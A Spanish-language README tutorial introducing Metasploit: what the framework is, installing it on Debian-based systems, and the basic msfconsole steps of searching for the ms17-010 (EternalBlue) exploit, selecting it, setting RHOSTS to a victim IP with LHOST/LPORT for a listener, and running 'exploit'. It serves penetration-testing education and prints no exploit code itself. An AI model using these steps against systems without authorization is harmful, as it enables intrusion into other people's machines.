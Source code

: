 ![45d05b2d7bd477a3cac9786ef8cf6e29](https://user-images.githubusercontent.com/103068924/168299911-cf99878d-756d-4497-91d1-49c0571d278b.png)

# ¿Qué es Metasploit?

Metasploit es un proyecto de código abierto para la seguridad informática, que proporciona información acerca de vulnerabilidades de seguridad y ayuda en 
tests de penetración `Pentesting` y el desarrollo de firmas para sistemas de detección de intrusos.

Su subproyecto más conocido es el `Metasploit Framework`, una herramienta para desarrollar y ejecutar exploits contra una máquina remota.

Inicialmente, fue creado utilizando el lenguaje de programación de scripting Perl aunque actualmente el Metasploit Framework ha sido escrito de nuevo 
completamente en el lenguaje Ruby.

# ¿Como funciona Metasploit?

Los pasos básicos para la explotación de un sistema que utiliza el Sistema incluyen:

1. La selección y configuración de un código el cual se va a explotar. El cual entra al sistema objetivo, mediante el aprovechamiento de
bugs. Existen cerca de 900 exploits incluidos para Windows, Unix / Linux y Mac OS X.   

2. Opción para comprobar si el sistema destino es susceptible a los bugs elegidos.  

3. La técnica para codificar el sistema de prevención de intrusiones (IPS) e incluir la carga útil codificada.   

4. Visualización a la hora de ejecutar el exploit.

Metasploit se ejecuta en Unix (incluyendo Linux y Mac OS X) y en Windows. El Sistema Metasploit se puede extender y es capaz utilizar complementos 
en varios idiomas.

Para elegir un exploit y la carga útil, se necesita un poco de información sobre el sistema objetivo, como la versión del sistema operativo y los
servicios de red instalados. 

Esta información puede ser obtenida con el escaneo de puertos y "OS fingerprinting", puedes obtener esta información 
con herramientas como Nmap, NeXpose o Nessus, estos programas, pueden detectar vulnerabilidades del sistema de destino. Metasploit puede importar
los datos de la exploración de vulnerabilidades y comparar las vulnerabilidades identificadas.

# Instalación:

Para poder instalar Metasploit en sistemas basados en Debian como Parrot o Kali Linux, primero actualizamos el sistema:

    sudo apt-get update
    
Y luego procedemos con la instalación:

    sudo apt-get install metasploit-framework
     
Una vez instalado podemos ejecutarlo mediante el comando:

    msfconsole
    
![Captura de pantalla -2022-05-13 02-39-06](https://user-images.githubusercontent.com/103068924/168301223-b00a6c4b-9582-42c4-8adf-85b44e3ebfcc.png)
 
# Búsqueda de Exploits:
 
Metasploit cuenta con una gran recopilación de exploits, para poder buscar el adecuado filtrando por la vulnerabilidad que queremos explotar 
simplemente usamos el comando `search` seguido del exploit, la vulnerabilidad o la versión del sistema que vamos a vulnerar. Esto debemos
ejecutarlo una vez hemos ingresado en `msfconsole`:

    search [Información que identifique la vulnerabilidad.]
    
![Captura de pantalla -2022-05-13 13-05-57](https://user-images.githubusercontent.com/103068924/168302351-3f912051-c282-44f8-a783-8ea373f84284.png)

## Conceptos básicos de configuración:

Una vez nos muestra las listas (en este ejemplo hemos buscado la vulnerabilidad ms17-010 conocida como EthernalBlue) de los exploits que contienen
la iformación proporcionada. En mi caso, como he especificado la vulnerabilidad `ms17-'010` los resultados son muy concretos.

Una vez tenemos claro el exploit que deseamos emplear, podemos seleccionarlo mediante `use` seguido o del número de posición en la lista, el directorio o el nombre del mismo exploit.

    use 0
    
![Captura de pantalla -2022-05-13 13-06-25](https://user-images.githubusercontent.com/103068924/168303141-286e5f50-4e31-44b6-93a1-497f1e553a3f.png)

Tras seleccionar el exploit ya solo faltaría configurarlo. Para ver la configuración predeterminada podemos usar el comando `options`.

![Captura de pantalla -2022-05-13 13-26-24](https://user-images.githubusercontent.com/103068924/168303659-f3e2dbc6-913a-48ae-9f0a-e01faf0cd725.png)

Para configurar los parametros simplemente utilizamos `set` seguido del parametro a cambiar. Debemos especificar el  `RHOSTS` donde indicamos la Ip
de la víctima, el `LHOST` donde indicaremos nuestra Ip pública (En caso de emplear una VPN debemos poner la Ip de misma.) y finalmente, indicamos 
el `LPORT` que es el puerto por el cual nos pondremos en escucha.

    set RHOSTS [Ip Víctima]

    set LHOST [Ip Local]
    
    set LPORT [Puerto de Escucha]
    
![Captura de pantalla -2022-05-13 13-25-31](https://user-images.githubusercontent.com/103068924/168304755-70ce4ee5-3ce0-440f-a1ab-8f68ad035dff.png)

Finalmente, una vez lo tenemos todo configurado, ejecutamos la herramienta deseada mediante el comando `exploit`:

    exploit


